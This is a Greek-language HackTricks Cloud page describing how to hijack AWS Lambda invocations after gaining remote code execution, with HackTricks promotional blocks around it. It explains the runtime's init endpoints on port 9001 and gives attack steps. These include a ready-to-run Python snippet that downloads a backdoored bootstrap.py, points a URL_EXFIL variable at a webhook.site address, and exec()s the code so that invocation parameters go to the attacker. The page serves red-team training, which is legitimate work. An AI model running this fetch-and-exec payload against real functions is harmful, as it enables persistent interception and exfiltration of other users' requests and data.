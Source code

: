 # AWS - Steal Lambda Requests

{% hint style="success" %}
Μάθετε και εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε και εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}

## Lambda Flow

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** είναι μια διαδικασία εκτός του container που **στέλνει** **invocations** στη διαδικασία **init**.
2. Η διαδικασία init ακούει στη θύρα **9001** εκθέτοντας μερικά ενδιαφέροντα endpoints:
* **`/2018-06-01/runtime/invocation/next`** – λήψη του επόμενου invocation event
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – επιστροφή της απάντησης του handler για το invoke
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – επιστροφή ενός σφάλματος εκτέλεσης
3. Το **bootstrap.py** έχει έναν βρόχο που λαμβάνει invocations από τη διαδικασία init και καλεί τον κώδικα των χρηστών για να τα χειριστεί (**`/next`**).
4. Τέλος, το **bootstrap.py** στέλνει στη διαδικασία init την **απάντηση**

Σημειώστε ότι το bootstrap φορτώνει τον κώδικα του χρήστη ως module, οπότε οποιαδήποτε εκτέλεση κώδικα που πραγματοποιείται από τον κώδικα των χρηστών συμβαίνει πραγματικά σε αυτή τη διαδικασία.

## Κλοπή Αιτημάτων Lambda

Ο στόχος αυτής της επίθεσης είναι να κάνει τον κώδικα των χρηστών να εκτελέσει μια κακόβουλη διαδικασία **`bootstrap.py`** μέσα στη διαδικασία **`bootstrap.py`** που χειρίζεται το ευάλωτο αίτημα. Με αυτόν τον τρόπο, η **κακόβουλη bootstrap** διαδικασία θα αρχίσει να **μιλάει με τη διαδικασία init** για να χειριστεί τα αιτήματα ενώ η **νόμιμη** bootstrap είναι **παγιδευμένη** εκτελώντας την κακόβουλη, οπότε δεν θα ζητήσει αιτήματα από τη διαδικασία init.

Αυτό είναι ένα απλό έργο καθώς ο κώδικας του χρήστη εκτελείται από τη νόμιμη διαδικασία **`bootstrap.py`**. Έτσι, ο επιτιθέμενος θα μπορούσε:

* **Να στείλει ένα ψεύτικο αποτέλεσμα του τρέχοντος invocation στη διαδικασία init**, ώστε η init να νομίζει ότι η διαδικασία bootstrap περιμένει περισσότερα invocations.
* Ένα αίτημα πρέπει να σταλεί στο **`/${invoke-id}/response`**
* Το invoke-id μπορεί να ληφθεί από το stack της νόμιμης διαδικασίας **`bootstrap.py`** χρησιμοποιώντας το [**inspect**](https://docs.python.org/3/library/inspect.html) python module (όπως [προτείνεται εδώ](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ή απλά ζητώντας το ξανά στο **`/2018-06-01/runtime/invocation/next`** (όπως [προτείνεται εδώ](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Εκτέλεση ενός κακόβουλου **`boostrap.py`** που θα χειριστεί τα επόμενα invocations
* Για λόγους stealthiness, είναι δυνατό να στείλετε τις παραμέτρους των lambda invocations σε έναν C2 που ελέγχεται από τον επιτιθέμενο και στη συνέχεια να χειριστείτε τα αιτήματα όπως συνήθως.
* Για αυτή την επίθεση, αρκεί να πάρετε τον αρχικό κώδικα του **`bootstrap.py`** από το σύστημα ή [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), να προσθέσετε τον κακόβουλο κώδικα και να τον εκτελέσετε από το τρέχον lambda invocation.

### Βήματα Επίθεσης

1. Βρείτε μια ευπάθεια **RCE**.
2. Δημιουργήστε ένα **κακόβουλο** **bootstrap** (π.χ. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Εκτελέστε** το κακόβουλο bootstrap.

Μπορείτε εύκολα να εκτελέσετε αυτές τις ενέργειες τρέχοντας:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Για περισσότερες πληροφορίες ελέγξτε [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Αναφορές

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Γίνετε μέλος της** 💬 [**ομάδας Discord**](https://discord.gg/hRep4RUj7f) ή της [**ομάδας telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}
